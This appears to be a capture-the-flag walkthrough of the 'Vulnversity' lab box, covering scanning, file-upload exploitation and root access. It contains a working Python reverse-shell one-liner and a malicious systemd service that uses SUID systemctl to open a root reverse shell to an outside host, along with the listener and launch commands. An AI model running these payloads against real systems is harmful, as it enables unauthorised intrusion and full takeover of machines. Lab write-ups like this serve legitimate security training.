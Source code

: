 # Vulnversity

export IP=10.10.241.128

## nmap
21			ftp 	3.0.3
22			ssh		7.2p2
139			Samba	3.X
445			Samba	4.3.11
3128	?	Squid	3.5.12
3333		apache	2.4.18

## 3333 - webhost

Frontpage

- viewsource
	No hints, no aperrant cms

- GoBuster
	* /internal
	* /internal/uploads

upload phtml cmd backdoor

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("	10.9.9.193",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## Reverse shell

Stabelized the shell

Find suid binaries and notice /bin/systemctl
If systemctl has suid you can install a custom service that makes a second reverse shell

## Develop exploit

`root.service`
```
[Unit]
Description=roooot

[Service]
Type=simple
User=Root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.4.99/9998 0>&1'

[Install]
WantedBy=multi-user.target
```

## Deploy exploit

Save the exploit on the box.

Enable the exploit
`/bin/systemctl enable /tmp/pathtoexploit/root.service`

Listen for incomming calls
`nc -l 9998`

Run the exploit
`/bin/systemctl start root`

## Remote root shell!

The shell returned :)
After that stabelize a little, so `export TERM=xterm`

`cat /root/root.txt` gives the final flag